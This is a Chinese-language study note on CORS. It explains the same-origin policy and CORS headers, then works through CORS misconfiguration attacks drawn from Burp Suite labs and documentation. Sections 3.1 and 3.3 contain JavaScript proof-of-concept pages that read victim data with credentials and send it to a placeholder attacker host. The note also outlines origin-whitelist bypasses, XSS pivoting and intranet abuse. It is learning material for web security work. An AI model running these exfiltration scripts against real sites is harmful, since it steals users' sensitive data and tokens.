


# CORS 跨源资源共享

## 1. CORS 简介

1. 参考：

    > https://zhuanlan.zhihu.com/p/118381660
    >
    > https://zhuanlan.zhihu.com/p/629973960

2. **浏览器的**同源策略的关键就是 URL 的**协议、端口和主机都相同。**具体详见 MDN 的解释：

    > https://developer.mozilla.org/zh-CN/docs/Web/Security/Same-origin_policy

3. 同源策略下，会有以下限制：

    1. 无法获取非同源的 Cookie、LocalStorage、SessionStorage 等。
    2. 无法获取非同源的 dom。
    3. 无法向非同源的服务器发送 Ajax 请求。

4. 在做前后端分离的项目时，不在同一域名下，需要跨域请求。这时就需要 jsonp 或者 CORS 了。

5. MDN 详细解释了 CORS：

    > https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CORS
    >
    > **跨源资源共享**（[CORS](https://developer.mozilla.org/zh-CN/docs/Glossary/CORS)，或通俗地译为跨域资源共享）是一种基于 [HTTP](https://developer.mozilla.org/zh-CN/docs/Glossary/HTTP) 头的机制，该机制通过**允许服务器标示**除了它自己以外的其他[源](https://developer.mozilla.org/zh-CN/docs/Glossary/Origin)（域、协议或端口），使得浏览器**允许这些源**访问加载自己的资源。
    > 跨源资源共享还通过**一种机制来检查**服务器是否会允许要发送的真实请求，该机制通过浏览器发起一个到服务器托管的跨源资源的**“预检”请求**。在预检中，浏览器发送的头中标示有 HTTP 方法和真实请求中会用到的头。

6. 上述提到了“预检”请求，这里提及“简单”请求和“预检”请求：

    > 某些请求不会触发 [CORS 预检请求](https://developer.mozilla.org/zh-CN/docs/Glossary/Preflight_request)。在废弃的 [CORS 规范 ](https://www.w3.org/TR/2014/REC-cors-20140116/#terminology)中称这样的请求为*简单请求*，但是目前的 [Fetch 规范](https://fetch.spec.whatwg.org/)（CORS 的现行定义规范）中不再使用这个词语。**简单请求需要自行防御 CSRF 漏洞，否则建议加入“预检请求”**。简单请求的范围详见 MDN：https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CORS#%E8%8B%A5%E5%B9%B2%E8%AE%BF%E9%97%AE%E6%8E%A7%E5%88%B6%E5%9C%BA%E6%99%AF
    >
    > “需预检的请求”要求必须**首先使用** [`OPTIONS`](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Methods/OPTIONS) 方法发起一个预检请求到服务器，以获知服务器是否允许该实际请求。“预检请求”的使用，可以避免跨域请求对服务器的用户数据产生未预期的影响。

    需要重点关注的是，“预检”请求中的响应标头：

    > ```http
    > HTTP/1.1 204 No Content
    > ...
    > Access-Control-Allow-Origin: https://foo.example
    > Access-Control-Allow-Methods: POST, GET, OPTIONS
    > Access-Control-Allow-Headers: X-PINGOTHER, Content-Type
    > Access-Control-Max-Age: 86400
    > Access-Control-Allow-Credentials: true
    > ...
    > ```
    > `Access-Control-Allow-Origin: <origin|*>`：响应标头指定了该响应的资源是否被允许与给定的[来源（origin）](https://developer.mozilla.org/zh-CN/docs/Glossary/Origin)共享。详见：https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Access-Control-Allow-Origin
    > `Access-Control-Allow-Methods: <Methods>`：指定访问的可以的方法。
    > `Access-Control-Allow-Headers:<header-name>,...`：用于通知服务器在真正的请求中会采用哪些请求头。
    > `Access-Control-Max-Age:<Number>`：指定 `Option` 的有效期。
    > `Access-Control-Allow-Credentials:<true|false>`：一般跨域请求资源是不需要携带 Cookie 等需要证明身份的信息的（因为大部分跨域的目的只是为了获取一些 CSS 等美化与修饰资源）。但是如果跨域请求需要，那么该词条为 `true` 表示服务器允许浏览器**携带凭据**去进行请求。


## 2. CORS 相关的漏洞 - 以 Burp 的靶场为例

1. 因为需要配置 CORS 响应头来告知浏览器是否允许该请求，所以如果配置不当，就可能导致攻击者通过恶意网站或代码执行跨域请求，从而**获取或篡改用户的敏感数据（危害和CSRF类似，不过可以劫持返回的内容）**。

### 2.1 基础的反射型，信任所有源

1. 解题的 PoC 官方给出了，主要是给了攻击的服务器供使用，这里主要提一些细节。
2. 登录后审计主页源码时，发现：
    
    这也就是为什么要访问 `/accountDetails` 的原因。
3. 访问后的关键在于：
    
    说明存在 CORS 漏洞。
4. 最后根据流程可以看出，这个攻击是需要管理员访问攻击服务器下的脚本才会触发，有点像 CSRF，都需要点击，但是原理和 CSRF 不同。

## 3. 翻译 - 从 Vulnerabilities 开始理解性的翻译

1. 发现 Burp 官方的文档已经讲的很细节了，这里就直接翻译过来，顺带学习了。

### 3.1 服务器端的 ACAO（Access-Control-Allow-Origin）响应头和客户端指定的 ACAO 相同

1. 一些应用需要为相当多的其他域名提供访问权限，然而为了维持这样的白名单，服务端是需要持续的维护；同时任何的错误都可能导致业务出问题。所以有些应用图方便，便允许所有的域名访问服务端。

2. 如何定位这种情况呢？抓包后，客户端的 `Origin` 和服务器端的 `ACAO` 相同。

3. 想要利用的话，最好有 `Access-Control-Allow-Credentials: true`，这样就可能获得 API Key 或 CSRF token 等重要信息。

4. 基本的利用脚本放在攻击服务器上，待受害者访问：
    ```js
    // 发起一个异步请求
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
    req.withCredentials = true;
    req.send();
    
    function reqListener() {
    	location='//malicious-website.com/log?key='+this.responseText;
    };
    ```

### 3.2 Origin 头部的错误解析

1. 正常情况下，如果客户端的 `Origin` 是在白名单内的，那么服务器返回的 `ACAO` 就是 `Origin` 的内容。
2. 然而有些网站会将所信任网站的部分/所有子域名放入白名单中（即使有些子域名并不存在，以后可能会用到）。
3. 例如：`normal-website.com.evil-user.net` ，可能就可以绕过白名单。

### 3.3 白名单只有 `null` 的情况

1. 首先，浏览器在以下情况时，发送的 HTTP 包中 `Origin` 的值为 `null`：

    1. 跨源的重定向
    2. 来自序列化后数据的请求
    3. 使用 `file` 协议的请求，这也是一般服务端白名单设置为 `null` 的原因，以方便目标页面和本地文件进行数据交互。
    4. 沙箱内的跨源请求

2. 情况的定位一般就是客户端发 `Origin: null`，此时服务端就会返回 `ACAO: null`，`Origin` 为其他的值时没有返回。

3. 一般常见的类型就是使用沙箱来发起跨域请求。相关的知识点可以见：

    > https://www.bookstack.cn/read/html-tutorial/spilt.2.docs-iframe.md

    因此，攻击端构造的脚本页面如下：
    ```html
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','vulnerable-website.com/sensitive-victim-data',true);
    req.withCredentials = true;
    req.send();
    
    function reqListener() {
    location='malicious-website.com/log?key='+this.responseText;
    };
    </script>"></iframe>
    ```

### 3.4 通过 CORS 信任的站来进行 XSS

1. 即使两个源站之间可能正确配置了 CORS 关系，但是如果其中的一个站有 XSS 漏洞，那么攻击者可以通过 XSS 写入 JS。该 JS 再通过 CORS 来获取敏感信息。
2. 例如站点 A 和 B 相互信任，但是 A 存在 XSS 漏洞，那么就可以利用 A 的 XSS 漏洞：
    `https://A.com/?xss=<script>cors-stuff-here</script>` 来获取 B 站点的信息。

### 3.5 通过配置不当的 CORS 突破 TLS 以获取数据（这个实现的复杂度太高）

1. 如果一个网站他的主域名严格的配置 HTTPS，但是他的子域名（在白名单）却使用 HTTP 时，这时可能就有漏洞。
2. 这种攻击的实质是中间人攻击，具体过程大概如下：
    1. 客户端发起 HTTP 请求。
    2. 攻击者注入攻击，使其重定向到服务器的子域名，这里假设为：`http://trusted-subdomain.vulnerable-website.com`。
    3. 客户端跟着重定向去访问。
    4. 攻击者再拦截重定向包，然后欺骗客户端发起 CORS 请求以访问服务端主域名：`https://vulnerable-website.com`。
    5. 这时 CORS 的 `Origin` 就是 `http://trusted-subdomain.vulnerable-website.com`。
    6. 结果服务端返回包的内容可以到攻击者的诱导页面上。

### 3.6 没有 credentials 的内网 CORS

1. 大多数危害性较大的 CORS 都需要返回头含：
    `Access-Control-Allow-Credentials: true`。
2. 没有该头部的话，CORS 能返回的数据也都是没有权限或者和权限无关的数据，该数据大多不太敏感。
3. 然而，有一种常见的情况是，存在 CORS 问题的网站是内网网站。内网中的网站往往安全防护等级不高，攻击者可以进一步利用。
4. 例如有的内网网站的 `ACAO` 可能就为 `*` 且不需要 credentials，如果一个内网的用户在 CORS 攻击下（公网）访问服务器（也是公网），那么可以以这个用户为跳板，从而访问内网资源。
